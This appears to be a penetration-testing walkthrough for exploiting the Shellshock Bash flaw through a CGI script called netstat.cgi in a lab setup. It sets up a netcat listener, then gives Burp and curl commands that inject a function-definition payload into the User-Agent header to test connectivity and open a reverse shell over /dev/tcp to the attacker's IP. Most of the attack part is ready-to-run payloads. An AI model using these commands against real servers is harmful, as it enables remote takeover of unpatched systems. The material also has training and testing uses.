






2. Exploit
Exploit
In this test scenario
◇ attackerIp → 192.168.147.139
◇ target → http://example.org/cgi-bin/netstat.cgi
1. set up listener on the attacker machine
root@kali:/# nc -nvlp 53
2. Exploit
On the Web Application we have found netstat.cgi is a simple CGI (Common Gateway Interface) file that displays the output from the netstat -nlt command. This page exists to check the local network connections of a web server, without requiring logging in locally to run the netstat command

This is how look the file netstat.cgi file if we look at it from the local machine.

The assumption here is that the server is not only running a vulnerable version of Bash, but also that it is passing CGI environment variables to Bash. The most obvious and likely CGI environment variables for us to target are HTTP_USER_AGENT, HTTP_COOKIE, and HTTP_REFERER
◇ Exploit using Burp
Intercept the request for the vulnerable file netstat.cgi and change the header User-Agent
User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/192.168.147.139/53 0>&1


◇ Exploit using CURL
The syntax is
curl -A "<User-Agent>" <URL>1- Test outbound connectivity of the target on port 53
root@kali:/# curl -H 'User-Agent: () { :; }; /bin/bash -c 'ping -c 3 192.168.147.139:53'' http://example.org/cgi-bin/netstat.cgi

2- start a reverse shell on port 53
root@kali:/# curl -H 'User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/192.168.147.139/53 0>&1' http://example.org/cgi-bin/netstat.cgi